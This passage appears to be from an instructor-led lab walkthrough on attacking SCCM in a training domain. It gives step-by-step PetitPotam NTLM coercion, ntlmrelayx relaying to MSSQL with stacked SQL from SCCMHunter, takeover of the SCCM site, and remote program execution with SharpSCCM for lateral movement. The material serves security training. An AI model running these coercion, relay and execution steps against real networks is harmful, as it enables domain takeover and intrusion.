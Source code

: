 If PetitPotam fails to trigger NTLM authentication, try using another named pipe (instead of the default, `lsarpc`) by adding the `-pipe efsr` flag.

 9. Verify your new privileges by querying the SMS Provider

1. In the open PowerShell window on `SENTRY#`, execute `C:\Tools\SharpSCCM.exe get site-push-settings`.

Note that the SMS Provider responds without an access denied message. You now have complete control of the SCCM site (again)!

SCCMHunter’s `admin` module also automates this functionality:

1. Open a command shell on `SPHERE#` as `testsubject#` (where `#` is your student number).
2. Navigate to `/home/testsubject#/tools/sccmhunter` by executing `cd ~/tools/sccmhunter`.
3. Execute `source venv/bin/activate` to enter the Python virtual environment where the tool’s dependencies are installed.
4. Execute `python3 sccmhunter.py mssql -u TESTSUBJECT# -p BlackMesa00# -d aperture.local -dc-ip 10.1.X.100 -tu TESTSUBJECT# -sc PS1 -stacked`, where `X` is your team/range number and `#` is your student number.
5. In a root command shell on `SPHERE#`, execute `ntlmrelayx.py -smb2support -t mssql://10.1.0.51 -q "<stacked_sql>"​`, replacing the placeholder with the stacked SQL statement in the output of the previous command.
6. In the first command shell, execute `python3 ~/tools/PetitPotam/PetitPotam.py -u TESTSUBJECT# -p BlackMesa00# -d APERTURE.LOCAL 10.1.X.20# 10.1.X.50`, where `X` is your team/range number and `#` is your student number.
7. In the open PowerShell window on `SENTRY#`, execute `C:\Tools\SharpSCCM.exe get site-push-settings` to validate your privileges.

## # LAB 4: LATERAL MOVEMENT

![[Pasted image 20240814020358.png]]
### Walkthroughs

To prevent spoilers and to make sure everybody can complete all of the steps for this exercise, please refrain from executing code on other students’ `SENTRY#` boxes.

 1. Execute calc.exe on your SENTRY# device as the logged on user
 
1. In the student portal, select the `Desktop` tab.
2. In the list of available systems, select `SENTRY#` to gain access to the SCCM client device as `TESTSUBJECT#` (where `#` is your student number).
3. Open a PowerShell command prompt.
4. Execute `runas /user:APERTURE\SCCMADMIN powershell`, then enter the password you recovered from the CIM repository.
5. In the new PowerShell window, execute `C:\Tools\SharpSCCM.exe exec -d SENTRY# -p calc.exe -w 60`.
6. Observe that shortly after the output displays `[+] Waiting 300 seconds for execution to complete...`, the `calc.exe` application is launched in your desktop session on `SENTRY#`.

Note that on occassion, the notification sent from the site server that forces clients to update policy and install pending applications fails. If the application doesn’t execute the first time, try running the `exec` command again.
